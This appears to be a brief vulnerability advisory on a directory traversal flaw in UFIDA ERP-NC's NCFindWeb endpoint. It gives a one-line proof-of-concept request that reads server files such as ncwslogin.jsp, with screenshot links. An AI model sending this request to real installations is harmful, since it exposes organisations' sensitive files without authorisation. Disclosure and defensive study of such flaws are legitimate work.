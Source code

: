 # UFIDA ERP-NC NCFindWeb directory traversal vulnerability

## Vulnerability Description

UFIDA ERP-NC has a directory traversal vulnerability, and attackers can obtain sensitive file information through directory traversal.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA ERP-NC</span>

## Network surveying and mapping



## Vulnerability reappears

POC is

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/yongyou-8.png)



View ncwslogin.jsp file



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/yongyou-9.png)